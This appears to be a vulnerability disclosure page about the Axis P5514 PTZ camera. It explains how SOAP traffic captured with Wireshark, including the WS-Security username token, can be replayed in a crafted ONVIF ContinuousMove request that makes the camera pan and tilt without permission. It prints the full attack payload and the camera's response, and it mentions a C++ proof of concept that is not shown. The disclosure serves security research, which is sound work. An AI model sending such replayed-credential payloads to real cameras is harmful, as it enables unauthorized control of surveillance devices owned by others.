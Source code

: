 #ContinuousMove Vulnerability of Axis 5514 Camera 

This page show the details of the vulnerability found in AXIS 5514 Camera. AXIX-P5514 is not on sale now, but maybe some of them are still in use. 


Description

Attacker can remotely make Axis 5514 camera turn around on Pan&Tilt without permission by a customized message. In order to customize and inject attacking messages, a PoC with C++ Language was developed to modify captured request messages with function “ContinuousMove” in <Soap:Body> under the ONVIF specification. The PoC source code "axis_5514_continuousmove.cpp" is also posted here. The raw message was captured on line by Wireshark. And I got the SOAP packets from client to the  AXIS-P5514 camera, and filtered out the authentication information in SOAP head, such as: <wsse:UsernameToken><wsse:Username> username </wsse:Username><wsse:Password Type="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-username-token-profile-1.0#PasswordDigest">keys</wsse:Password><wsse:Nonce>8eVIq85lxOn5IcBPVdiyvQ==</wsse:Nonce><wsu:Created>20XX-03-12T09:12:15Z</wsu:Created></wsse:UsernameToken>. After capturing such packets, use the authentication information above to customize a message with function “ContinuousMove” in <Soap:Body> and then send the modified message to the AXIS-P5514 camera. Then the Axis 5514 camera can continually move on Pan&Tilt. 

The customized message is likely as follow.
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:tt="http://www.onvif.org/ver10/schema">  <s:Header xmlns:s="http://www.w3.org/2003/05/soap-envelope">    
<wsse:Security xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/ oasis-200401-wss-wssecurity-utility-1.0.xsd">      
<wsse:UsernameToken>        
<wsse:Username>username</wsse:Username>        
<wsse:Password Type="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-username-token-profile-1.0#PasswordDigest">keys</wsse:Password><wsse:Nonce>8eVIq85lxOn5IcBPVdiyvQ==</wsse:Nonce>        
<wsu:Created>20XX-03-12T09:12:15Z</wsu:Created>      
</wsse:UsernameToken>   
 </wsse:Security>  
</s:Header>  
  <s:Body xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
    <ContinuousMove xmlns="http://www.onvif.org/ver20/ptz/wsdl">
      <ProfileToken>profile_1_h264</ProfileToken>
      <Velocity>
        <PanTilt x="1" y="1" space="http://www.onvif.org/ver10/tptz/PanTiltSpaces/VelocityGenericSpace" xmlns="http://www.onvif.org/ver10/schema" />
      </Velocity>
      <Timeout>PT30S</Timeout>
    </ContinuousMove>
  </s:Body>
</soap:Envelope>

the response message is likely as follow.

HTTP/1.1 200 OK
Server: gSOAP/2.7
Content-Type: application/soap+xml; charset=utf-8
Content-Length: 2940
Connection: close
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:SOAP-ENC="http://www.w3.org/2003/05/soap-encoding" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:c14n="http://www.w3.org/2001/10/xml-exc-c14n#" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd" xmlns:ds="http://www.w3.org/2000/09/xmldsig#" xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsa5="http://www.w3.org/2005/08/addressing" xmlns:xmime="http://tempuri.org/xmime.xsd" xmlns:xop="http://www.w3.org/2004/08/xop/include" xmlns:wsrfbf="http://docs.oasis-open.org/wsrf/bf-2" xmlns:wstop="http://docs.oasis-open.org/wsn/t-1" xmlns:tt="http://www.onvif.org/ver10/schema" xmlns:acert="http://www.axis.com/vapix/ws/cert" xmlns:wsrfr="http://docs.oasis-open.org/wsrf/r-2" xmlns:aa="http://www.axis.com/vapix/ws/action1" xmlns:acertificates="http://www.axis.com/vapix/ws/certificates" xmlns:aentry="http://www.axis.com/vapix/ws/entry" xmlns:aev="http://www.axis.com/vapix/ws/event1" xmlns:aeva="http://www.axis.com/vapix/ws/embeddedvideoanalytics1" xmlns:ali1="http://www.axis.com/vapix/ws/light/CommonBinding" xmlns:ali2="http://www.axis.com/vapix/ws/light/IntensityBinding" xmlns:ali3="http://www.axis.com/vapix/ws/light/AngleOfIlluminationBinding" xmlns:ali4="http://www.axis.com/vapix/ws/light/DayNightSynchronizeBinding" xmlns:ali="http://www.axis.com/vapix/ws/light" xmlns:apc="http://www.axis.com/vapix/ws/panopsiscalibration1" xmlns:arth="http://www.axis.com/vapix/ws/recordedtour1" xmlns:ascm="http://www.axis.com/vapix/ws/siblingcameramonitor1" xmlns:asd="http://www.axis.com/vapix/ws/shockdetection" xmlns:aweb="http://www.axis.com/vapix/ws/webserver" xmlns:tan1="http://www.onvif.org/ver20/analytics/wsdl/RuleEngineBinding" xmlns:tan2="http://www.onvif.org/ver20/analytics/wsdl/AnalyticsEngineBinding" xmlns:tan="http://www.onvif.org/ver20/analytics/wsdl" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:tev1="http://www.onvif.org/ver10/events/wsdl/NotificationProducerBinding" xmlns:tev2="http://www.onvif.org/ver10/events/wsdl/EventBinding" xmlns:tev3="http://www.onvif.org/ver10/events/wsdl/SubscriptionManagerBinding" xmlns:wsnt="http://docs.oasis-open.org/wsn/b-2" xmlns:tev4="http://www.onvif.org/ver10/events/wsdl/PullPointSubscriptionBinding" xmlns:tev="http://www.onvif.org/ver10/events/wsdl" xmlns:timg="http://www.onvif.org/ver20/imaging/wsdl" xmlns:tptz="http://www.onvif.org/ver20/ptz/wsdl" xmlns:trt="http://www.onvif.org/ver10/media/wsdl" xmlns:ter="http://www.onvif.org/ver10/error" xmlns:tns1="http://www.onvif.org/ver10/topics" xmlns:tnsaxis="http://www.axis.com/2009/event/topics"><SOAP-ENV:Header></SOAP-ENV:Header><SOAP-ENV:Body><tptz:ContinuousMoveResponse></tptz:ContinuousMoveResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>



References

https://www.axis.com/products/axis-p5514-e
